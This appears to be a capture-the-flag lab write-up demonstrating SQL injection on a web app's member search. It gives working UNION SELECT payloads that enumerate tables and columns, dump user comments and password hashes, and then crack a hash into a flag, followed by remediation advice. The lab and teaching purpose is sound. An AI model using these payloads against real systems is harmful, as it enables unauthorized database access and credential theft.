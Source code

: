 ```
http://{IP_ADDRESS}/?page=member
```

When we entered the Members page, we saw that we could search for a user.
After writing "1" in the search section, we encountered something like this:

```html
ID: 1
First name: one
Surname: me
```

Then we made our query as 2-1.

```html
ID: 2-1
First name: one
Surname: me
```

This way we understood the existence of SQL injection. You can test with "1 AND 1=1" or other variations if you prefer.

Now when using our own query, we'll use `UNION SELECT`, but the number of columns in the original query must exactly match the number of columns from our injection.
For this reason, we need to find the number of columns.

```
1 ORDER BY 1        ✔

1 ORDER BY 2        ✔

1 ORDER BY 3        X

Unknown column '3' in 'order clause'
```

We learned there are 2 columns.

```
1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()  
```

We execute this query.

```
ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()   
First name: 
Surname : users
```

Now that we know the table name:

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

With this query we call table_name and column_name. The part that will be relevant for us is the `users` part.

```
[...]
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
[...]
```

```
1 UNION SELECT first_name, user_id FROM users

1 UNION SELECT first_name, first_name FROM users

1 UNION SELECT first_name, last_name FROM users

1 UNION SELECT first_name, town FROM users

1 UNION SELECT first_name, country FROM users

1 UNION SELECT first_name, planet FROM users

1 UNION SELECT first_name, Commentaire FROM users

1 UNION SELECT first_name, countersign FROM users

```

You can query each one individually to learn more.

```
-1 UNION SELECT Commentaire, countersign from users
```

```
ID: -1 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: -1 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: -1 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: -1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We looked at what this hash might be using the website we used in our previous project. You can use tools like `hashid` or any hash finder if you prefer.

```
https://www.dcode.fr/
```

We had it automatically analyzed and saw it was MD5, and when decrypted:

It turned out to be `FortyTwo`. Now we'll make everything lowercase and hash it with sha256.

```
 ~  echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```


## How to fix

Use Prepared Statements. Data received from users is not directly included in SQL queries. Instead, data is bound to the query as parameters and processed securely by the database engine, which prevents SQL Injection attacks.

Restrict SQL account permissions to limit possible damage in case of an attack.

Hide error messages, even though this doesn't directly prevent SQL injection.

You can filter user inputs.

Use WAF (Web Application Firewall).